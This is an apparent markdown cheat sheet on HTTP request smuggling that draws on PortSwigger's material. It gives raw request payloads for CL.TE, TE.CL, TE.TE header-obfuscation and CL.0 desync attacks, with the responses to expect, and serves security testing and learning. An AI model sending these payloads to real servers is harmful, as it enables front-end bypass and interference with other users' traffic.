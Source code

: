 > From the PortSwigger very good article:\
> https://portswigger.net/web-security/request-smuggling/finding

## What is smuggling

To know when the body of POST request ends, servers can use **Content-Length** and **Transfer-Encoding** headers.

- **Content-Length** specifies the length of the message body in bytes
- **Transfer-Encoding (chunked)** waits to meet a 0 in the body

:warning: **Smuggling requests may occur when frontend (proxy, firewall) and backend servers do not use the same delimiter method.**

:information_source: Use HTTP/1.1 to exploit, because HTTP/2 is not vulnerable.\
:information_source: However, it is still possible to exploit if the frontend supports HTTP/2 but not the backend!

## CL.TE vulnerabilities
- **Frontend** uses **Content-Length**
- **Backend** uses **Transfer-Encoding**

```
POST /robots.txt HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 49
Transfer-Encoding: chunked

e
q=smuggling&x=
0

GET /404 HTTP/1.1
Foo: x
```

The next request should answer with a 404.

## TE.CL vulnerabilities
- **Frontend** uses **Transfer-Encoding**
- **Backend** uses **Content-Length**

:information_source: Deactivate *Update Content-Length* in Burp

```
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-length: 4
Transfer-Encoding: chunked

5e
POST /404 HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

x=1
0


```

The next request should answer with a 404.

:information_source: The chunk size (here **5e**) is the length of the following chunk in hexadecimal (the chunk being the following request).

## TE.TE vulnerabilities
- Both use **Transfer-Encoding** but one of the servers can be induced not to process it by obfuscating the header in some way.

Ways to obfuscate the header:

```
Transfer-Encoding: xchunked

Transfer-Encoding : chunked

Transfer-Encoding: chunked
Transfer-Encoding: x

Transfer-Encoding:[tab]chunked

[space]Transfer-Encoding: chunked

X: X[\n]Transfer-Encoding: chunked

Transfer-Encoding
: chunked
```

## CL.0
- Front-end uses the **Content-Length** header and backend ignores it (treating it as having a value of 0 and treating the body as the next request).
- Transfer-Encoding header is useless as it is ignored by both frontend and backend servers.

```
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 3

xyzGET / HTTP/1.1
Host: vulnerable-website.com
```

The next request should give a **405 Method Not Allowed** as the backend will process the body as the next request, so with **xyzGET** method. 
